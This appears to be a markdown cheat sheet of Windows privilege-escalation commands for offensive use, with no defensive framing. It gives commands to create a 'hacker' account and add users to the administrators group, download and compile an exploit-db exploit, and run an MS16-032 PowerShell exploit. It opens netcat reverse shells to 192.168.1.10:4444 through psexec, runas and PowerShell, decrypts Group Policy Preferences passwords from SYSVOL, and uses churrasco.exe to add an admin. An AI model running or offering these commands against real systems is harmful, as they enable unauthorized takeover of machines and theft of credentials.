 # Useful Command for Windows Privilage Escalation


Windows Privilege Escalation resource http://www.fuzzysecurity.com/tutorials/16.html

## Info

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

## User Add and Admin Group Add

```
net user hacker hacker /add 
net localgroup administrators IWAM_BOB /add
```

***

* **Python Complier exe**

```
 pip install pyinstaller
 wget -O exploit.py http://www.exploit-db.com/download/31853  
 python pyinstaller.py --onefile exploit.py
```

* **Powershell exploit run in cmd**

```
powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\Invoke-MS16-032.ps1; Invoke-MS16-032 }"
```

* **Windows Run As**

1 - Sysinternal psexec

```
C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe" 
```

2 - runas.exe

```
C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
 Enter the password for Test:
```

3 - Powershell 

```
$username = '<username here>'
$password = '<password here>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public
 ```

To start:

```
powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"
```

* **Windows Service Configuration Viewver:**

```
 scsiaccess.exe  
 NT AUTHORITY\SYSTEM:(I)(F)  
 BUILTIN\Administrators:(I)(F)  
 BUILTIN\Users:(I)(RX)  
 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)  
 Everyone:(I)(F)
```

* **Group Policy Preferences**

```
#map the Domain controller SYSVOL share

net use z:\\dc01\SYSVOL

#Find the GPP file: Groups.xml

dir /s Groups.xml

#Review the contents for passwords

type Groups.xml

#Decrypt using GPP Decrypt

gpp-decrypt riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB
```

* **Windows Server 2003**

```
upload /root/Desktop/test/churrasco.exe C:\\Inetpub\\
shell
churrasco.exe “net user emr Password1 /add”
churrasco.exe “net localgroup Administrator emr /add”
```
